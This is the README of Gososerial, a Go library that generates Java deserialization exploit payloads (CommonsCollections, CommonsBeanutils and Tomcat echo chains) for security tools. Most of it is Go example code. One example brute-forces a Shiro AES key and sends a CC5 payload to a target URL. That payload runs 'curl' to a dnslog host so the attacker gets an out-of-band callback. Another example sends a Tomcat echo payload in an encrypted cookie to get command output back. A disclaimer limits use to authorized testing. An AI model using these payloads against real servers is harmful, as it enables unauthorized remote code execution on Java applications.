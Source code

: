 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1-CC7，K1-K4和CB1链

- 支持K1和K2的TomcatEcho，HTTP头可自行取名

## Quick Start

- download and import

```shell
go get github.com/EmYiQing/Gososerial
```

- example

```go
package main

import (
	"fmt"
	gososerial "github.com/EmYiQing/Gososerial"
)

func main() {
	var payload []byte
	payload = gososerial.GetCC1("calc.exe")
	fmt.Println(payload)
}
```

- how to use tomcat echo

```go
package main

import (
	gososerial "github.com/EmYiQing/Gososerial"
	"..."
)

func main() {
	// Testecho: expr 10 '*' 10 -> Testecho: expr 10 '*' 10
	// Testcmd: expr 10 '*' 10 -> Testcmd: 100
	payload := gososerial.GetCCK2TomcatEcho("Testecho", "Testcmd")

	req.Cookie = AESEncrypt(payload)
	req.Header["Testecho"] = "gososerial"
	req.Method = "POST"
	resp := httputil.sendRequest(req)

	if resp.Header["Testecho"] == "gososerial" {
		log.Info("find cck2 tomcat echo")
	}
}
```

- shiro scan example

```go
package main

import (
	gososerial "github.com/EmYiQing/Gososerial"
	"..."
)

func main() {
	// Shiro Scan Code
	target := "http://shiro_ip/"
	// Brust Shiro AES Key 
	key := shiro.CheckShiroKey(target)
	if key != nil {
		log.Info("find key: %s", key)
	}
	// Use CommonsCollections5 Payload
	var payload []byte
	payload = gososerial.GetCC5("curl xxxxx.ceye.io")
	// Send Cookies Encrypted By AES
	shiro.SendPayload(key, payload, target)
	// Receive Results Using Dnslog API
	if ceye.CheckResult("your_ceye_token") {
		log.Info("find shiro!")
	}
}
```

## 命令行 (beta)

- CommonsCollections1

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)

- 支持列表

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## 感谢

参考xray作者phith0n和koalr师傅的代码

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n

**ysoserial**: https://github.com/frohoff/ysoserial

**koalr**: https://github.com/zema1/ysoserial

## 免责申明

未经授权许可使用Gososerial攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的
